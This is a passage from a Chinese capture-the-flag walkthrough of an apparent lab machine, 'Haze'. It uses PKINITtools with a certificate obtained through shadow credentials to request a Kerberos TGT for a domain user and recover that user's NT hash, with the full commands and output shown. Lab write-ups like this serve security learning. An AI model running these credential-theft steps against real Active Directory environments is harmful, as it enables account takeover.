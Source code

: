 使用他提供的工具👇

- [dirkjanm/PKINITtools: Tools for Kerberos PKINIT and relaying to AD CS](https://github.com/dirkjanm/PKINITtools)

使用刚才生成的证书来请求一个**TGT**，这里的参数在上面提供了

```
[root@kali] /home/kali/Haze/pywhisker/pywhisker/PKINITtools (master) 
❯ python gettgtpkinit.py -cert-pfx ../c00sSu5E.pfx  -pfx-pass nppJ5hulBJapp4MbWmei haze.htb/edward.martin edward.ccache   
```

设置环境变量

```
[root@kali] /home/kali/Haze/pywhisker/pywhisker/PKINITtools (master) 
❯ export KRB5CCNAME=/home/kali/Haze/pywhisker/pywhisker/PKINITtools/edward.ccache 
```

然后请求nthash

```
[root@kali] /home/kali/Haze/pywhisker/pywhisker/PKINITtools (master) 
❯ python getnthash.py -key d0fe683700624e9392a976017afd89838fa7c4035c5889474a92cbdda68554b9 haze.htb/edward.martin
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
09e0b3eeb2xxxxxxxxxxxxxxxxxxxxxx
```

最后登录上去拿到User

![](./images/image-369.png)

## Privilege Escalation

注意到根目录下有个**Backup**目录，这个目录我们之前是无法进入的
